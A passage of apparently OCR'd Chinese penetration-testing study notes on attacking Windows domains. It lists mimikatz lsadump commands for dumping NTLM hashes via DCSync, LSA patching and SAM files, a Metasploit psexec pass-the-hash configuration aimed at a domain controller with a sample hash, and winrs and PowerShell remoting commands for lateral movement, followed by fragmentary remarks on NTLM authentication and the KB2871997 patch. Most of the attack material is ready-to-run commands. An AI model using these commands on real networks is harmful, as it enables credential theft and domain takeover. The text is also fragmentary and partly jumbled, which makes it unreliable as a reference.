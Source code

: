`lsadump模块`

```plain
//在域控上执行查看域 domain.com 内指定用户 root 详细信息，包括 NTLM 哈希
lsadump::dcsync /domain:domain.coim /user:root

//(在域控上执行) 读取所有域用户的哈希值
lsadump::lsa /patch

//直接从系统文件 sam.hive 和 system.hive 文件获取 NTLM Hash
lsadump::sam /sam:sam.hive /system:system.hive

## 拓展方法，从本地 SAM 文件读取密码哈希
token::elevate
lsadump::sam
```

### PTH Hash 传递

**PTH，即 Pass The Hash，首先我们来说下为什么要使用 Hash 传递，一是目标主机在 win server 2012 之后，lsass.exe 进程中是抓不到明文密码的；二是随着信息安全意识的提高，弱口令情况逐渐降低，我们经常会遇到拿到 hash 却解不开的情况，综上，只要我们获取到 hash，我们依然可以正常登录。**  
`Msf进行Hash传递获取域控`

```plain
proxychains msfconsole
use exploit/windows/smb/psexec
set smbdomain wwl
set rhosts 192.168.223.10
set smbuser administrator
set smbpass 00000000000000000000000000000000:afffeba176210fad4628f0524bfe1942
run
```

同时也可以了解一下 mimikatz 抓密码的原理，从这个原理中可以知道 windows 安全的一些机制。

【信息搜集】：学习内网信息搜集方式，关注哪些信息是敏感的（我是谁？我是否在域中？是否有内网？等）。

```plain
1.winrs
winrs -r:http://IP:5985 -u:.\administrator -p:admin123 "whoami" # 执行单条命令
winrs -r:http://IP:5985 -u:.\administrator -p:admin123 cmd # 返回交互式 cmd


2.powershell
单条命令

Invoke-Command -ComputerName server01 -Credential domain01\user01 -ScriptBlock {Get-Culture}
交互式

Enter-PSSession -ComputerName 192.168.100.155 -Credential administrator
需要输入主机账户密码
可以使用票据注入执行
```

要求：总结文章，尽可能全面  
【横 向】 ：学 习 PTH（哈 希 传 递 攻 击），以及 KB2871997 补丁对其造成的影响要求  
NTLM 认证采用质询/应答 (Challenge/Response) 的消息交换模式。NTLM 既可用于域环境下的身份认证，也可以用于没有域的工作组环境。主要有本地认证和网络认证两种方式
